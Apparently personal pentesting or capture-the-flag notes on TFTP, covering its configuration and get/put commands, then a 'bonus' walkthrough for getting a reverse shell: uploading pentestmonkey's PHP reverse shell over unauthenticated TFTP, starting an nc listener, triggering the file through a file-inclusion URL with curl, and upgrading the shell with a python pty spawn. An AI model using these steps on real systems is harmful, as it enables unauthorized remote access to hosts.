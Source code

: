 # TFTP - Trivial File Transfer Protocol
﷽
* A simple protocol that provides basic file transfer function ***without authentication needed***.
* Uses `UDP` to work.
## usage
* `tftp` to enter
* it's really simple omds sa'd

* The default configuration file for `tftpd-hpa` is `/etc/default/tftpd-hpa`.
* The default `root` directory where files will be stored is `var/lib/tftpboot`.

* use `get` and `put` to manipulate files.
* this is a really basic program, don't be stupid

### as a bonus, getting a reverse shell (it's stupid easy u schmuck)

* use the `php-reverse-shell.php` by pentestmonkey the goat for this.
  * make sure the `ip` and `port` have been changed for your IP and port.

* open `tftp` with `tftp`.
* stupid easy:
  * put `php-reverse-shell.php`
* done, the shell is on!

* start a `nc` listener:
  * `nc -lvnp 7777`, where
  * `7777` is the port.

* now, request the shell by navigating to it:
* `curl 'http://{target_IP}/?file=/var/lib/tftpboot/php-reverse-shell.php'`

* upgrade the shell by `python3 -c 'import pty;pty.spawn("/bin/bash")'`-ing it.



